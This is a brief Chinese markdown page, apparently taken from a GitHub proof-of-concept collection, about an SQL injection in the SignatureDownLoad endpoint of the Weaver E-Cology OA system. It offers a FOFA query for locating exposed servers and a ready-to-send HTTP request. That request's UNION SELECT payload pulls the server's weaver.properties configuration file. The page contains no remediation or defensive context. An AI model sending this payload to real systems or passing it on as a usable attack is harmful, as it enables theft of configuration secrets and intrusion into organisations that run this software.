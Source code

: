 ## 泛微E-Cology系统接口SignatureDownLoad存在SQL注入漏洞

## fofa
```
app="泛微-OA（e-cology）"
```

## poc
```
GET /weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
```

![3597e4a40959cd3638fb62bcdf38b282](https://github.com/wy876/POC/assets/139549762/39a01c4b-3697-4c83-8840-cdb444ff38ce)
